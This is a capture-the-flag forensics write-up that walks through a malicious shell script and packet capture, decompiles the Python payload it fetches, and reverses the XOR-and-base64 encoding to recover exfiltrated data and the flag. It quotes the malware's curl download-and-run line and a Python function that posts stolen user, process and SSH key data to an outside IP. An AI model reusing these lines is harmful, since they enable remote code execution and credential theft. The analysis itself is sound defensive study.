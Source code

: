 # solution

## First, let's look at `mal.sh`


```bash
which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi
```
`which` locates a command and `$?` gets the result of the most recent command, so the if statement is just checking whether or not python3 exists on the system. The script does the same thing with `curl`.

```bash
mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
```
We can see that a mac address is being constructed and put into `mac_addr`. This is done by this chain of commands, do a bunch of `man` calls for each of these commands to better understand them. But the gist of it is, `ip addr` is getting a bunch of network information, the following piped commands extract our mac address out.

```bash
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
```
Here we can see that the program is pulling information from the internet with the `curl` command at the address `54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr)`. So when we look at the pcap later, we can expect to see a HTTP GET request, or at least try to find this url. The information following the `-H` switch just specifies what the header information is for the request. Then whatever we get from that command, we're decoding it with base64 and piping it into `/tmp/.cacheimg`.

```bash
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```
Finally, we just run whatever we got with python and then delete it.

Okay! Now we should look at the pcap, we know we're looking for behaviour that lines up with this scripts commands.

## Looking at evidence.pcapng

We know from looking at `mal.sh` that a GET request was issued to 54.80.43.46. So we start by looking at the HTTP protocol, and oh hey it's right there.

<img src="screenshot.png">

There's a GET request and a POST request, we want to extract the data being transferred here. The way I did this was go to File > Export Objects > HTTP and then selecting the one called `banner.png?cache=NGI6ZTE6ZDY6YTg6NjY6YmUK`. I also exported the POST request information as well for later. With this, we now have a file full of jumbled information.\
\
But recall what we figured out when we looked at mal.sh, they also called `base64 -d` on it, so our information is just encoded! So we can just call:
```bash
base64 -d banner.png?cache=NGI6ZTE6ZDY6YTg6NjY6YmUK > output
```
to decode the information and put it into the file output. If you printed output it does not look like python code, it looks all messed up, in fact, calling `python3` on it wouldn't work either! \
\
However running `file` on output (`file` is a command you should run on files to check, it's a good habit to form) gives us this:
`output: python 3.6 byte-compiled` \
Ah! So it looked like gibberish because it was compiled code, so then we can just uncompile: \
`$ uncompyle6 out.pyc > malicious_code.py` \
gives us our python code, piped into `malicious_code.py`.

## Looking at our extracted python code
I won't go deep into detail about what this does. But notice that the first command being run is `a()`, at the bottom.
```python
try:
    a()
except:
    pass
```
So following control flow, let's look at `a()`:
```python
def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))

    data = build_output(net, user, proc, ssh)
    send(data)
```
Ok, it checks if our mac address is the same as the target's, then calls a bunch of functions to get information, combines it into `data` and calls `send(data)`. It's not a good idea to run malware, so don't run it as a way of figuring out what it does. So far, we're just getting info and sending it, lets look at `send(data)`:
```python
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```
Ok, what's going on here before we send it as a POST request. Remember that information we extracted from `evidence.pcapng`? It was some information from a POST request, the information we got form the pcap was the victim's encrypted data that was sent to the attacker! We need to decode it to understand what information was exfiltrated \
\
 The data is being encoded with `json.dumps(data).encode()`, we're doing an iterative XOR between each character of our encoded data with some key `k = b'8675309'`, then it's getting encoded in base64 and finally sent. Let's write a short python script that just reverses this. I put the information we got from the POST request in the pcap into a variable called `flag` that then went into this program:

 ```python
flag = base64.b64decode(flag)
k = b'8675309'
decoded = bytes([flag[i] ^ k[(i % len(k))] for i in range(len(flag))])

print(decoded.find(b'dam'))
```
This outputted `9558`, which is the index in `decoded` that contains the string `dam`, so lets just print more of it:

```python
print(decoded[9558:9600])
```
which gives us `b'dam{oh_n0_a1l_muh_k3y5_are_g0n3}", "GJS_DE'`, hence we got our flag! \
\
flag: `dam{oh_n0_a1l_muh_k3y5_are_g0n3}`